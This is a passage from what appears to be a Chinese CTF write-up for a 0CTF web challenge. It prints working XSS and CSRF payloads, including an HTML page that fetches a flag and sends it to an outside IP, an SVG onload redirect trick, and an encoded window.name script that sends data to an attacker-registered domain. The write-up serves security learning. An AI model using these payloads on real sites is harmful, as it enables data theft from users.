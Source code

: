 

![juhao2](http://momomoxiaoxi.com/img/post/0ctf/juhao2.png)



最终的payload：

 ```html
<link rel=prefetch href=\\test。com
 ```

https://test。com/index.html

```html
<html>
<head>
<meta http-equiv="Access-Control-Allow-Origin" content="*">
</head>


<script src="https://cdn.bootcss.com/jquery/2.2.4/jquery.min.js"></script>
<script type="text/javascript">
$.get("https://router.vip/flag.php",function(data){
//alert(data);
        location.href="http://104.224.169.90:6789/"+escape(data);
});
</script>


</html>
```



#### 奇特的思路 svg

看了[LC↯BC](https://ctftime.org/team/15726)的题解，思路超级猥琐！

payload

```
<svg id=\ onload=location=id+id+12345609861+domain+id+1234+id
```

这个domain是取的当下页面的domain，也就是router.vip。所以，我们需要注册一个xxxxrouter.vip的域名。这种思路主要是因为.被过滤了。（俄罗斯人肯定不知道。可以过滤成.2333中文的强大😂）

然后，在 https://12345609861router.vip/1234/index.html下写了一个页面。将`<svg onload=location=name`提交给preview，完成二次xss触发。它会执行window.name中的东西，发送一个get请求，并把数据弹回来

```html
<html>
  <body>
    <form id="send" action="https://router.vip/preview.php?" method="POST">
      <input type="hidden" name="task" value="" />
      <input type="hidden" name="payload" value="&lt;svg&#32;onload&#61;location&#61;name" />
      <input type="hidden" name="geetest&#95;challenge" value="" />
      <input type="hidden" name="geetest&#95;validate" value="" />
      <input type="hidden" name="geetest&#95;seccode" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
    window.name = "javascript:%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%78%68%72%2e%6f%70%65%6e%28%27%47%45%54%27%2c%20%27%68%74%74%70%73%3a%2f%2f%72%6f%75%74%65%72%2e%76%69%70%2f%66%6c%61%67%2e%70%68%70%27%2c%20%66%61%6c%73%65%29%3b%0a%78%68%72%2e%73%65%6e%64%28%29%3b%0a%69%66%20%28%78%68%72%2e%73%74%61%74%75%73%20%3d%3d%20%32%30%30%29%20%7b%0a%20%20%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%73%3a%2f%2f%31%32%33%34%35%36%30%39%38%36%31%72%6f%75%74%65%72%2e%76%69%70%2f%31%32%33%34%2f%3f%72%65%73%75%6c%74%3d%27%2b%78%68%72%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%0a%7d";
    document.getElementById("send").submit();
    </script>
```